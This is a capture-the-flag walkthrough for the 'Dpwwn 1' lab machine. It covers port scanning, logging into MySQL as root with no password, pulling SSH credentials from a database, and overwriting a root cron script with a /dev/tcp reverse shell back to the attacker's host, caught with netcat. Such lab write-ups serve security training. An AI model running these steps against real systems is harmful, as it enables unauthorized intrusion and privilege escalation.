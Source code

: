 # Dpwwn 1
![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/2mFxAST.png)
Victim is `192.168.227.131`
`nmap -sS -sV -A -p- -oN NmapDpwwnLv1.txt 192.168.227.131`
![](https://i.imgur.com/CbtVWI8.png)
We got ssh, web service and mysql.
![](https://i.imgur.com/w0cXN3t.png)
`dirb` it.
![](https://i.imgur.com/PcBaSGG.png)
Nothing, jsut simple info.
Let's turn to exploit the MySQL.
![](https://i.imgur.com/xfPtE3g.png)
Let's take try to access the mysql.
`mysql -h 192.168.227.131 –u root –p`
There's might be common mistake that didn't set root pf DB property.
`show databases;`
`use ssh;`
`show tables;`
![](https://i.imgur.com/4ZJn9Rl.png)
Then we found some AC/PW for SSH.
`select * from users;`
![](https://i.imgur.com/No7ipmo.png)
Then we use `mistic` to login to the machine. 
`ssh mistic@192.168.227.131`
`ls –al`
![](https://i.imgur.com/dCfEcoJ.png)
Here we got a `.sh` file belong to mistic.
`cat logrot.sh`
![](https://i.imgur.com/hx4JXBM.png)
So, this is a shell script to collect the semaphore log every 3 minutes.
`grep -r 'logrot.sh' /* 2>/dev/null`
![](https://i.imgur.com/kL8DvJa.png)
`cat /etc/crontab`
![](https://i.imgur.com/8NScdhj.png)
`msfvenom –p cmd/unix/reverse_bash lhost=192.168.227.132 lport=8888 R`
![](https://i.imgur.com/6AfEJXx.png)
`echo ‘0<&74-;exec 74<>/dev/tcp/192.168.227.132/8888;sh <&74 >&74 2>&74’ > logrot.sh`
`nc –nvlp 8888`
Wait for 3 minutes then you'll get the shell.
![](https://i.imgur.com/ngdNuAt.png)
